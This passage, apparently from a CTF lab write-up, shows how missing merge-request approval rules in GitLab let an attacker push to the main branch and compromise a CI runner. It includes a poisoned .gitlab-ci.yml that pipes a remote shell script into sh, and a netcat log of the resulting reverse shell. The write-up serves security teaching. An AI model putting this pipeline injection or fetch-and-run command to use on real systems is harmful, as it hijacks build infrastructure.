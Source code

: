 - Policies that are not enforced through a technology will not be respected by attackers. Sure, the policy says that a manager must approve the merge request, but if you read the merge request, you will see that from a technical standpoint, Gitlab indicates that approval is optional.

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/207b79da-a881-412c-aa1d-fc720300b370)

- Although the main branch is protected by not allowing any direct pushes, since developers can still make merge requests, they can simply push their own merge request to commit code to the main branch. The two-person principle was not implemented to ensure that another person has to accept the merge request.

Leveraging these mistakes, as an attacker, you can simply approve your own merge request (though it isn't even needed) and you can then merge it to the main branch, as shown below!

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/1a059cf7-63a9-4362-899d-ea98126f4fff)


Reviewing the code in the main branch, we have made a change to the main branch! 

Now comes the fun part. **The GitLab runner was configured to only run on the main branch. Since we can now push code to the main branch, we can compromise the runner**. 

Now that we know how to get your code to the main branch, make some changes to the .**_gitlab-ci.yml*_* file to get code execution on the runner. 

Modify the **_.gitlab-ci.yml_** file with the following contents:

```yml
   production:
     stage: deploy
     script:
       - 'echo "Starting translator engine.... Please stand by...."'
       - curl http://10.50.75.24:8080/shell.sh | sh
     environment:
       name: ${CI_JOB_NAME}
```

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/8d188e83-e107-4204-91e1-adbc9a24faf0)

To make the Gitlab runner run our malicious reverse shell code, we need to merge it to main branch by ourself.

- Approve the request by ourselves.
- Select _Merge Immediately_ option.

Once the runner executes our code, we get a reverse shell back on our machine.

```bash
┌──(root㉿kali)-[/home/kali/thm/CI_CD and Build Security]
└─# nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.50.75.24] from (UNKNOWN) [10.200.94.201] 52826
/bin/sh: 0: can't access tty; job control turned off

gitlab-runner@ip-10-200-94-201:~/builds/RYStXjj2/0/ash/approval-test$ id
id
uid=1001(gitlab-runner) gid=1001(gitlab-runner) groups=1001(gitlab-runner)
```
### Protecting the Pipeline -


[kali]: runner-kali